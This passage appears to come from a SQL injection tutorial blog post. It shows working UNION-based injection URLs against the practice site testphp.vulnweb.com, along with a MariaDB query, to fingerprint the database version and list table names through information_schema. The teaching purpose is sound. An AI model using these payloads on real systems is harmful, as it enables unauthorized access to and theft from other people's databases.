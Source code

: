 <br>
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201,version(),3,4,5,6,7,8,9,10,11>
<br>
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql11.jpg)
<br>
After this point of time, all the helper functions are available for you.You can run the following to avoid first part of the
sql query to only see your own query by selecting something non existent from the database.
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=8217582175821%20UNION%20SELECT%201,version(),3,4,5,6,7,8,9,10,11>
### Extracting the table names
First thing to do is to gather all the table names exists in the database.For MySQl it is `information_schema` which provides
access to database metadata.We are going to use methods of that information_schema to enumerate the database. 
Even though helper function's syntax or names will vary database to database, there is always a functionality doing
the same thing with for different database.
<br>
{% highlight sql %}
MariaDB [testdb]> SELECT table_name FROM information_schema.tables WHERE table_schema=database();
+------------+
| table_name |
+------------+
| users      |
+------------+
{% endhighlight %}
With `tables` method belongs to `information_schema`, we can query the table names.<br>
Now lets imply this method to the acuart database.
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema=database()>